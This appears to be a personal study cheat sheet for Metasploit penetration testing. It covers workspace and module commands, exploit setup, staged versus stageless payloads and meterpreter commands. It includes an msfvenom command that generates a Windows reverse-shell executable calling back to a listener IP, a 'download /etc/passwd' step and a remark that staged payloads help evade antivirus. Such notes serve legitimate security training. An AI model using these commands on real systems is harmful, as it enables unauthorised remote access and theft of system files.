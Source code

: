 # Metasploit Intro

## Rules:
- Allow in ALL machines
    ```
    multi/handler
    msfvenom (excluding meterpreter payload),
    pattern_create 
    pattern_offset 
    ```
- Allow in SINGLE machines
  ```
    meterpreter
    auxiliary
    post
    exploit
    scan
  ```

## Basics
- ``` workspace -a {new workspace name}``` add | delete ``` -d ```
- ``` db_nmap ``` Nmap inside Metasploit 
- ``` hosts ``` list of all discovered hosts up to this point
- ``` services -p {port}``` show all discovered services

## Auxiliary Module (輔助)
- ``` search type:auxiliary {module name} ``` search
- ``` use {module_id} ``` load certain module
- ``` info ``` show info
- ``` show options ``` 
- ``` unset RHOSTS ``` reset param
- ``` run ```
- ``` vulns```

## Exploit Module
- ``` search type:exploit {module name} ``` search
- ``` set payload payload/linux/x64/shell_reverse_tcp ```
- when success will have shell created -> move to background with ctrl z
- show sessions in background ``` sessions -l ``` 
- kill sessions ``` session -k {id} ``` | ``` session -K ``` kill all
- reset workspace wont kill sessions

# Payloads
## Staged vs Non-Staged
- ``` / ``` = Staged & ``` _ ``` Stagless for name
- Staged : 2 step to bypass AV (send smaller packet first, then smuggle the payload thru another step)
- Stageless : 1 step (large & one take) 

## meterpreter payload
- multiple cmd packaged for staged one & not directly have a Remote shell ( can do other stuff)
- ```  sysinfo ``` 
- ``` getuid ``` get UID lolll
- ``` shell ``` generate shell 
- ``` channel -l ``` show all active channel | ``` channel -i {id} ``` use certain channel
- ``` download /etc/passwd ``` = scp
- ``` lcat ``` = meterpreter version cat
- ``` upload /usr/bin/unix-privesc-check /tmp/ ``` = scp
- ``` ls {dir}``` = ls loll
- ``` search -f {fileName} ```
  
## Executable Payloads (exe,ps1,bin)
### msfvenom
- https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom 
- ``` msfvenom -l payloads --platform {windows/php/etc...} --arch x64 ``` show all payloads with criteria
- ``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe ``` example of generating payload

### metasploit handler in kali
- some payload req msf to connect & ncat cant handle
- ``` msf6> use multi/handler ```
- 